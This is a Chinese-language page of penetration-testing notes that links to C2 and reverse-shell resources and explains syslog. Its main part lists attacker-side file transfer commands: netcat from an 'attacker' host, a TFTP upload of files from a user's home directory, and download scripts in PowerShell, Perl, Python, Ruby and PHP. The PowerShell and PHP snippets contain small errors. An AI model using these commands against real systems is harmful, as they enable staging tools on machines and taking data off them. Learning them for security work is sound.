 # 端点安全

- [端点安全](#端点安全)
  - [C2 工具](#c2-工具)
  - [反弹Shell](#反弹shell)
  - [Syslog](#syslog)
  - [下载文件](#下载文件)
    - [系统自带软件/工具下载](#系统自带软件工具下载)
      - [FTP](#ftp)
      - [Netcat](#netcat)
      - [TFTP](#tftp)
    - [编程语言下载脚本](#编程语言下载脚本)
      - [Powershell](#powershell)
      - [Perl](#perl)
      - [Python](#python)
      - [Ruby](#ruby)
      - [PHP](#php)

---

## C2 工具

[Cobalt Strike 模块详解&功能详解 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/261298349)

---

## 反弹Shell

> [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)
>
> [反弹Shell，看这一篇就够了 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9488?time__1311=n4%2BxuDgD9AdWqhDBqDwmDUok0Kwqq2DiKx&alichlgref=https%3A%2F%2Fwww.google.com%2F)

反弹Shell就是攻击机监听在某个TCP/UDP端口为服务端, 目标机主动发起请求到攻击机监听的端口, 并将其命令行的输入输出转到攻击机

可以在 [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/) 获取到各种方式的反弹 Shell 写法

---

## Syslog

> [Syslog - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/zh-hans/Syslog)
>
> [关于 syslog 你要知道的一切 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/62793386)

Syslog(System Logging Protocol)是一种用于从各种网络设备以特定格式发送和接收通知消息的标准协议。

这些消息包括时间戳、事件消息、严重性、主机IP地址、诊断等。Syslog可以用于记录设备的日志，监控系统的状态，报告故障或警告，分析网络性能等。

Syslog协议通常用于实现系统监控、故障排除、安全审计以及日志记录和分析。

---

## 下载文件

### 系统自带软件/工具下载

#### FTP

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```bash
ftp 127.0.0.1
username
password
get file
exit
```

当然根据实际情况也可以进入交互终端：

```bash
ftp 192.168.3.2
输入用户名和密码后
lcd E:\file # 进入E盘下的file目录
cd www # 进入服务器上的www目录
get access.log # 将服务器上的access.log下载到E:\file
```

---

#### Netcat

攻击者的电脑上输入:

```bash
cat file | nc -l 1234
```

> 这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。

目标电脑上的命令:

```bash
nc host_ip 1234 > file
```

这条命令将连接攻击者的电脑, 接受传过来的文件内容并保存到 file 路径

---

#### TFTP

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

上传：

```powershell
tftp -i IP地址 PUT C:\%homepath%\file 远程存放位置
```

下载：

```powershell
tftp -i IP地址 GET C:\%homepath%\file 本地存放位置
```


---

### 编程语言下载脚本

#### Powershell

PowerShell 是一种 winodws 原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

下面这两条指令实现了从 Internet 网络下载一个文件。

```Powershell
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file")
```

> 关于 Windows 上 Powershell 下载与执行在[Windows安全-下载与执行文件-Net.WebClient](Windows/index.md#Net.WebClient) 处有更多

---

#### Perl

编写 Perl 脚本实现文件下载:

```perl
#!perl
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");
```

执行脚本文件:

```bash
perl test.pl
```

---

#### Python

```python
#!python
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()
```

---

#### Ruby

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```ruby
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```

执行脚本:

```bash
ruby test.rb
```

---

#### PHP

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

```php
#!/usr/bin/php
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

执行脚本文件:

```bash
php test.php
```

---

## 工具站点

- 工具资源,安装包归档站点: [MSDN, 我告诉你 - 做一个安静的工具站 (itellyou.cn)](https://msdn.itellyou.cn/)

  > 例如找 Office 历史版本安装包啥的



